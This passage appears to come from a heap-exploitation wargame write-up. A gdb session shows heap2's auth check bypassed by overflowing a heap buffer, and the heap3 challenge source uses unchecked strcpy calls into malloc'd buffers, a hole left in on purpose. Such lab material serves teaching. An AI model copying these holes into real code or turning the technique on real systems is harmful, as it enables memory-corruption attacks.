 ```
(gdb) c 
Continuing.
[ auth = 0x804c008, service = (nil) ]
serviceBBBBBBBBBBBBBBBB

Breakpoint 1, main (argc=1, argv=0xbffff844) at heap2/heap2.c:20
20	in heap2/heap2.c
(gdb) x/20x 0x804c000
0x804c000:	0x00000000	0x00000011	0x41414141	0x0000000a
0x804c010:	0x00000000	0x00000019	0x42424242	0x42424242
0x804c020:	0x42424242	0x42424242	0x0000000a	0x00000fd9
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
```

```
(gdb) c
Continuing.
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
```

#### `heap3`

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

void winner(){
  printf("that wasn't too bad now, was it? @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  char *a, *b, *c;

  a = malloc(32);
  b = malloc(32);
  c = malloc(32);

  strcpy(a, argv[1]);
  strcpy(b, argv[2]);
  strcpy(c, argv[3]);

  free(c);
  free(b);
  free(a);

  printf("dynamite failed?\n");
}
```
